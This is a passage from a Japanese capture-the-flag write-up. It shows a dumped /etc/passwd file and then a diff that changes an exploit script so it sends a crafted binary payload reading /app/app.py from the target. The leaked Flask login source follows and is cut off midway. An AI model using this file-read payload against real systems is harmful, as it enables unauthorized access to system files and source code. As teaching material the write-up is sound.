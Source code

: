 ```
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
```

`/app/app.py` にソースコードがあることは先程のエラーメッセージからわかっています。以下のような変更を加え、読み出してみましょう。

```diff
$ diff orig.py mod.py
18,19c18,20
< dump_etc_passwd = bytes.fromhex('0c000001fb2f6574632f706173737764')
< server.send(dump_etc_passwd)
---
> path = '/app/app.py'
> payload = chr(len(path) + 1) + unhex('000001fb') + path
> server.send(payload)
```

以下のようにソースコードが得られました。

```python
#! usr/bin/python
# -*- coding: utf-8 -*-

from flask import Flask, render_template, request, redirect, send_from_directory
import config
import os
import subprocess
import random
import string
import hashlib
import binascii

# Initialization of variables and modules
app = Flask(__name__)
app.config.from_object('config')

## ROUTES

@app.route('/img/<path:path>')
def send_js(path):
    return send_from_directory('img', path)

@app.route('/')
@app.route('/index')
def index():
    return redirect('/login')

@app.route('/login', methods=['GET','POST'])
def login():
    form = request.form
    if request.method == 'GET':
        return render_template('security/login.html', form=form)
    else:
        name = request.form.get('username')
        password = request.form.get('password')

        if name:
            name = name[0:200].strip()
        else:
            return render_template("security/login.html", error="Name is required!")


```